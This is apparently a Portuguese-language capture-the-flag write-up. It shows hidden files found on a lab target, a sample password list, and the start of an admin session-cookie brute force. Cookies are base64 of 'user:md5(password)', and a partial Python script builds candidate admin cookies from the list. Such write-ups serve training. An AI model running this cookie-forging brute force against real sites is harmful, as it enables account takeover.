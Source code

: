 Arquivos encontrados:
* `-rw-r--r--  1 root root    368 Aug 19 01:30 .from_admin.txt` → admin informa que todos usam senhas de uma wordlist segura.
* `-rw-r--r--  1 root root   3150 Aug 19 01:30 .passwords_list.txtt` → lista com **senhas**.

```bash
$cat .from_admin.txt

To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.

NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.

$
$wc -l .passwords_list.txt && echo "" && head -n 10 .passwords_list.txt 
150 .passwords_list.txt

Vxb38mSNN8wxqHxv6uMX
56J4Zw6cvz8qDvhCWCVy
qLnqTXydnY3ktstntLGu
N63nPUxDG2ZvrhZgP978
jw3Ezr26tygTdgBZVYGr
zb9CFkd2QGDBjgyVvfDH
kfFpLAQFhD3S6TvYn4mv
nYyn4JxPhjSsm4HUeGtK
yGWCg6GNePUFZzV8f2gP
LFK43GAfc8JeVpCGCXzM
```

---

## 🍪 Brute-force de Sessão (Admin)

Cookie padrão em uso → formato:  
```
base64(usuario:md5(senha))
```

Decodificação do cookie com CyberChief:  
```
hijack:e10adc3949ba59abbe56e057f20f883e
```

Script para gerar wordlist:
```python
import hashlib
import base64

# Abrir o arquivo e ler as linhas
with open('.passwords_list.txt', 'r') as arquivo:
    linhas = arquivo.readlines()

# Fazer loop pelas linhas e modificar cada uma
for linha in linhas:
    # Remover espaçoes em branco inicio/ fim da linha
    senha = linha.strip()

    # Fazer hash de cada linha removida usando MD5
    hash_senha  = hashlib.md5(senha.encode('utf-8')).hexdigest()

    # Adicione "admin:" ao início do hash
    combinado = 'admin:' + hash_senha

    # Codifique o hash modificado para base64
```